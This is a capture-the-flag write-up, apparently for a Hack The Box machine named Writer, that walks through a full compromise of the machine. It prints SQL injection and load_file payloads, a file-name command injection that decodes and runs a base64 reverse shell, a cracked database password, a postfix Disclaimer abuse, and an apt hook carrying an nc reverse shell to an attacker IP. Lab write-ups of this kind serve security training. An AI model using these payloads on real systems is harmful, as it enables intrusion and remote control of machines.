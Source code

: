 writer
---

## Steps

1. fuzzing paths and SQL injection

We fuzz for the path `http://writer.htb/administrative` which gives us an admin login page

The username is vulnerable to SQL injection `admin' or 1=1;`

2. SQL injection union and LFI

We find out how many columns there are by playing with the number until we get no errors

`admin' order by N;`

Once we have found N

`admin' UNION ALL SELECT 1,load_file('/etc/passwd'),3,4,5,6`

We can lfi `/etc/apache2/sites-enabled/000-default.conf`, and follow more files until we lfi `/var/www/writer.htb/writer/__init__.py`, which shows us how images are processed

3. RCE and reverse shell

In the `__init__.py` file, we see that they simply check if the string `.jpg` exists in the file name uploaded, before calling `os.system("mv <file> ...)`

If we name our file to be `a.jpg;<exploit code>`, we can trigger rce

We use BurpSuite to intercept the POST request on changing images, and we modify the contents of the file being sent to achieve RCE

`a.jpg;echo <base64 reverse shell> | base64 -d | bash`

This should call a reverse shell

4. Kyle

```
$ cat /etc/mysql/my.cnf

$ mysql -u djangouser dev -p
$ DjangoSuperPassword

$ select username,password from auth_user;

kyle, password hash

$ hashcat64 hash.txr rockyou.txt

marcoantonio

$ ssh kyle@10.10.11.110
marcoantonio
```


5. Disclaimer and Emailing

```
$ id

... (management)

$ find / -group management 2>/dev/null
/etc/postfix/Disclaimer
```

Disclaimer is called everytime someone recieves an email

Put a reverse shell code in Disclaimer, and send an emaili using Python SMTP to john

```
import smtplib
host = '127.0.0.1'
port = 25

sender_email = "kyle@writer.htb"
receiver_email = "john@localhost"
message = """\
Subject: Hi there

Test_python_sender."""

try:
    server = smtplib.SMTP(host, port)
    server.ehlo()
    server.sendmail(sender_email, receiver_email, message)
except Exception as e:
    print(e)
finally:
    server.quit()
```

When john receives the email, he will execute Disclaimer using his account, triggering the reverse shell

Get the user flag

## Root Flag

We can write to `/etc/apt/apt.conf.d/` which is a collection of scripts that is called when `apt` is called

We write a reverse shell in to get a root shell

```
$ find / -perms /u=s 2>/dev/null


$ id
... (filter)

$ find / -groups filter 2>/dev/null
/etc/apt/apt.conf.d/


$ echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.13 4444 >/tmp/f"};' > exploit
```
